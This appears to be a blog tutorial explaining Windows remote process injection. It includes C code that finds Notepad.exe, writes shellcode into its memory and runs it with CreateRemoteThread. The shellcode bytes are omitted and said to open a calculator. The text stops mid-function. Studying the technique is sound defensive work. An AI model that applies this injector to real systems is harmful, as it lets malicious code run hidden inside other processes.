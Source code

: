 ```yaml
---
layout: post
title:  "Process Injection - 01"
---
```


## Injecting shellcode into a remote process.

### Introduction

Process injection, a technique utilized in both legitimate applications and malicious software, involves manipulating the memory space of a running process. This blog delves into the intricacies of remote process injection, utilizing a simple C program for educational purposes. It's important to note that the provided code lacks evasion techniques and is intended solely for educational exploration.

### Overview of Process Injection

Process injection serves as a potent method for executing code in the address space of another process. This allows for various functionalities, including code injection, DLL injection, and reflective DLL injection. In our exploration, we'll focus on remote process injection, where the injection process is initiated from an external program. In our example, the program does not incorporate evasion techniques and maintains a straightforward structure. This approach allows for a clearer understanding of the core concepts without introducing complexities related to evasion.

### Utilized functions from the Windows APIs

The success of remote process injection hinges on leveraging specific Win32API functions. These functions play pivotal roles in tasks such as process identification, memory allocation in the remote process, and thread creation. Here are key Win32API functions employed in the provided C code:

- `CreateToolhelp32Snapshot`: Captures a snapshot of all processes currently running in the system.
- `Process32First` and `Process32Next`: Retrieve information about the first and subsequent processes in the snapshot.
- `OpenProcess`: Opens an existing process, providing various access rights.
- `VirtualAllocEx`: Allocates memory in the address space of the specified process.
- `WriteProcessMemory`: Writes data to the memory of the specified process.
- `CreateRemoteThread`: Creates a thread running in the address space of the specified process.

### Flow of the Program (key steps)

1. **Process Identification:** Identify the process ID of "Notepad.exe" or any process ID of your choice using `FindProcessId`.
2. **Open the Process:** If the process ID is obtained, open the process with full access rights using `OpenProcess`.
3. **Payload Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function.
4. **Execution:** The injected payload, represented by the shellcode, is executed within the context of the target process.

### Understanding the code

1. **Payload definition:** The `payload` variable encapsulates a block of machine code, acting as the payload intended for injection. This payload, in our example, is designed to open a calculator.

    ```c
    unsigned char payload[] = {
      // ... (payload content)
    };
    unsigned int payload_len = sizeof(payload);
    ```

2. **Process Identification:** (Identify the Process ID of "Notepad.exe" using `FindProcessId`)

    In this step, the program uses the `FindProcessId` function to determine the Process ID (PID) of the target process, which, in this example, is "Notepad.exe." The `FindProcessId` function takes the name of the target process as a parameter and iterates through the list of running processes to find a match. Here, the function uses the Windows API functions `CreateToolhelp32Snapshot` and `Process32First/Process32Next` to iterate through the list of processes, comparing each process name with the provided target name ("Notepad.exe"). When a match is found, the corresponding Process ID is returned.

    ```c
    int FindProcessId(const char *FprocessName) {
      HANDLE hProcessSnapshot;
      PROCESSENTRY32 pe32;
      DWORD pid = 0;

      hProcessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

      if (hProcessSnapshot == INVALID_HANDLE_VALUE) {
        // Error handling
        return 0;
      }

      pe32.dwSize = sizeof(PROCESSENTRY32);
      if (!Process32First(hProcessSnapshot, &pe32)) {
        // Error handling
        CloseHandle(hProcessSnapshot);
        return 0;
      }

      while (Process32Next(hProcessSnapshot, &pe32)) {
        if (_stricmp(FprocessName, pe32.szExeFile) == 0) {
          pid = pe32.th32ProcessID;
          break;
        }
      }

      CloseHandle(hProcessSnapshot);
      return pid;
    }
    ```

3. **Open the Process:** (If the Process ID is obtained, open the process with full access rights using `OpenProcess`)

    Once the Process ID is identified, the program uses the `OpenProcess` function to open the target process. This function returns a handle to the specified process, allowing subsequent operations on that process. In this snippet, the `OpenProcess` function is called with the identified Process ID and the desired access rights (`PROCESS_ALL_ACCESS`). If the function succeeds, it returns a handle (`hProcess`) to the opened process, signifying that subsequent operations can be performed on this process.

    ```c
    int main(void) {
      // ... (main function initialization)
      int main(void) {
        int process_Id = 0;
        HANDLE hProcess = NULL;

        process_Id = FindProcessId("Notepad.exe");

        if (process_Id) {
            printf("Notepad process id is: %d", process_Id);

            hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_Id);
            if (hProcess != NULL) {
                // Code to inject payload
            }
        }

        return 0;
    }
    ```

4. **Remote Process Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function. Following the successful opening of the target process, the program proceeds to inject the payload. This involves allocating memory within the address space of the target process using `VirtualAllocEx` and writing the payload into that allocated memory with `WriteProcessMemory`. Here, the `injectPayload` function is called with the opened process handle (`hProcess`) and the payload information. The `injectPayload` function, which was defined earlier, handles the memory allocation and payload injection.

    ```c
    // Function to inject payload into the target process
    int injectPayload(HANDLE ihProcess, unsigned char *iPayload, int iPayload_len) {
        // Allocate memory in the remote process
        LPVOID rmem = VirtualAllocEx(ihProcess, NULL, iPayload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (rmem == NULL) {
            // Error handling
            return -1;
        }

        // Write the payload into the allocated memory
        if (!WriteProcessMemory(ihProcess, rmem, (PVOID)iPayload, iPayload_len, NULL)) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem, 0, MEM_RELEASE);
            return -1;
        }

        // Create a remote thread to execute the injected payload
        HANDLE cremoteThread = CreateRemoteThread(ihProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rmem, NULL, 0, NULL);

        if (cremoteThread == NULL) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem
